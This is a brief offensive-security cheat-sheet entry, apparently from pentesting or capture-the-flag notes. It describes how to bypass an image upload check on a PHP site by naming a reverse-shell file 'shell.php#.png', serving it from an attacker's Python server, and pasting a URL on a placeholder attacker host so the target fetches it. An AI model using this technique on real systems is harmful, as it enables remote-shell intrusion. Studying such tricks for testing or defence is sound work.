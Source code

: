 - **Shell shenanigans**:
	- If you can upload images and its working with php you can try this:
	- 1st get a reverse shell like one in [Reverse shells 👾](Reverse%20shells%20👾.md)
	- Then create a file like `shell.php#.png`
	- Serve a python server
	- Paste the path to it:

```shell
http://IP_ATTACK:8090/shell.php#.png
```

